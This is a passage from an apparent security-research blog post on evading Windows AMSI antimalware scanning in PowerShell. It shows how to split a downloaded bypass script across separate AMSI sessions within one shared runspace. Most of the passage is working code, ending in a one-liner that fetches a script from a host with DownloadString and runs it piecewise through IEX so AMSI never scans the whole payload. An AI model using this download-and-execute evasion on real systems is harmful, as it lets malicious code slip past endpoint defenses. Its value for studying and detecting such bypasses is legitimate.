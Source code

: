 ```
$Runspace = [runspacefactory]::CreateRunspace().Open()

$PowerShell1 = [powershell]::Create()
$PowerShell1.runspace = $Runspace
$PowerShell1.AddScript({$command1}).Invoke();

$PowerShell2 = [powershell]::Create()
$PowerShell2.runspace = $Runspace
$PowerShell2.AddScript({$command2}).Invoke();
```

We show that this allows us to run our commands in separate AMSI sessions.
Nice.

 ![image12.png]({{ site.url }}{{ site.baseurl }}/assets/images/amsi/image12.png)



Applying this finding to Rasta Mouse's script, we can adapt our code a bit to
shorten things up. We reuse a single PowerShell instance and [clear its
commands](
https://stackoverflow.com/questions/25156868/remove-command-from-powershell-pipeline)
each time.

```
$Runspace =[runspacefactory]::CreateRunspace()
$Runspace.Open()

$PowerShell = [powershell]::Create()
$PowerShell.runspace = $Runspace
$PowerShell.AddScript({$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt")}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(0,591))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(591,60))}).Invoke();

$PowerShell.Commands.Clear()
$PowerShell.AddScript({IEX($full.substring(651,126))}).Invoke();
```

We end up with this long "1-liner" which downloads our AMSI bypass script,
splits it up, and runs each part in separate AMSI sessions but in the same
runspace. Fantastic.

```
$Runspace = [runspacefactory]::CreateRunspace();$Runspace.Open();$PowerShell =[powershell]::Create();$PowerShell.runspace =$Runspace;$PowerShell.AddScript({$full = (New-Object Net.Webclient).downloadstring("http://192.168.159.131/rastamouse/full.txt")}).Invoke();$PowerShell.Commands.Clear();$PowerShell.AddScript({IEX($full.substring(0,591))}).Invoke();$PowerShell.Commands.Clear();$PowerShell.AddScript({IEX($full.substring(591,60))}).Invoke();$PowerShell.Commands.Clear();$PowerShell.AddScript({IEX($full.substring(651,126))}).Invoke();
```
